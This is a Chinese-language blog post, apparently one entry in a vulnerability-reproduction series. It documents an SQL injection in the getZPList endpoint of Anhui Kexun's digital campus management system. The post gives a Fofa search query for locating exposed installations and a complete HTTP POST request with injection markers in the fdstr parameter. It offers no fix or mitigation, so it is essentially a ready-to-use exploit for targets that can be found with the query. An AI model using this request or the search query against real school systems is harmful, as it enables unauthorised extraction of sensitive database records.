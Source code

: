 ```yaml
---
layout: post
title: 科迅数字化校园综合管理系统getZPList SQL注入漏洞
abbrlink: 7c0b35e29b954934bb68e36ff0f8cecb
tags: []
categories:
  - 漏洞挖掘与复现
  - web应用
  - 安徽科迅
date: 1735306074356
updated: 1735310030749
---
```


## 漏洞描述

 <blockquote>安徽科迅教育装备集团20年来来始终坚持集成方案产品的开发和部署应用，有完善的智慧校园和数字校园建设方案，根据不同的学校不同的实际情况量身定做系统集成方案。产品主要是为了实现校园的智慧网络、智慧OA、智慧教学、智慧学习、数字医疗、智慧安防、智慧平台、校园一卡通智慧结算等。科迅数字化校园综合管理系统存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。</blockquote>

## Fofa

```
body="数字化校园综合管理系统"
```

## 漏洞复现

```
POST /DC_JY/getZPList?fb=1 HTTP/1.1
Host: 
Content-Length: 187
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0
Content-Type: application/x-www-form-urlencoded
Origin: http://127.0.0.1
Referer: http://127.0.0.1/DC_JY/ZP_Index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1722057915,1724161841; loginfrom=DC; xxmc=èä¸ä¸­ç­ä¸ä¸å­¦æ ¡; ASP.NET_SessionId=q1mamrdkce051qeoelyfzyk1; sid=SX7JFLFX85TLU0AL
Connection: keep-alive

fdstr=%7B%22S_Position%22%3A%221*%22%2C%22S_Company%22%3A%221'%22%2C%22S_WorkingPlace%22%3A%221'%22%2C%22S_MonthlyPay1%22%3A%221'%22%2C%22S_MonthlyPay2%22%3A%221'%22%7D&page=1&pagesize=10
```
